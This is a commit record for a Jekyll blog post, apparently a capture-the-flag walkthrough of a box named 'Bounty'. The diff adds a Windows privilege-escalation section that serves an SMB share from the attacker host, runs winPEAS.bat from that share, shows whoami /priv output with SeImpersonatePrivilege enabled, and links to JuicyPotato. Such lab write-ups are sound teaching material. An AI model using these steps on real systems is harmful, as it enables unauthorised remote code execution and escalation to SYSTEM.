

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-31-bounty.md, in a window 1280 px wide and 1400 px high, scrolled down 6241 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-31-bounty.md
+++ b/_posts/2020-07-31-bounty.md
@@ -140,7 +140,7 @@ Response.write("<!-"&"-")
 -->
 ```
 
-![RCE success](/assets/imgs/bounty/RCE_success.PNG)
+![RCE success](/assets/imgs/bounty/rce_success.PNG)
 
 Nice I have code execution, now with some more Googling, I found this repository : [https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c](https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c), who gives 3 web.config files :
 
@@ -301,7 +301,38 @@ dir /ah
                0 Dir(s)  11,682,705,408 bytes free
 ```
 
+Here is the user.txt file ! Now to root ! I used winPEAS to get informations about the box, start a smb server for easy file transfert :
 
+```
+sudo smbserver.py -smb2support liodeus ./
+```
+
+Then launch winPEAS, I used the .bat version because I couldn't make works the .exe one :
+
+```
+\\10.10.14.10\liodeus\winPEAS.bat
+```
+
+It gives me a lot of informations but the one I'm interested in is the privileges that I have, winPEAS gives us those privileges, but if you want to do it manually, here's the command :
+
+```
+c:\windows\system32\inetsrv>whoami /priv
+whoami /priv
+
+PRIVILEGES INFORMATION
+----------------------
+
+Privilege Name                Description                               State
+============================= ========================================= ========
+SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
+SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
+SeAuditPrivilege              Generate security audits                  Disabled
+SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
+SeImpersonatePrivilege        Impersonate a client after authentication Enabled
+SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
+```
+
+> If he user has SeImpersonate or SeAssignPrimaryToken priviles then you are SYSTEM.
 
 [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)
 
````
